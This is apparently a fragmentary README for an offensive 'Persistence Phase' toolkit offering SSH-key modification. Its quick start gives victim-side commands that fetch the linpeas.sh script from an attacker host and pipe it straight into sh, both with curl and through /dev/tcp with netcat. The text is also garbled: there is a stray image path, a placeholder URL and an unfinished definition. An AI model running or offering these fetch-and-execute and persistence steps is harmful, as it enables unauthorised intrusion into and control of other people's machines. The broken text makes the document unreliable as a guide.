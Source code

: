 # Persistence Phase

Definition...  

Available parts:
- Modify SSH Keys

## Quick Start


```bash
# From github
curl -L github....file..bblablal
```




```bash
# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```


## Results

Results stored to output/ directory.

## Compatibility

The script is fully POSIX compatible and can run on most unix-based (POSIX/Unix/Linux) systems. 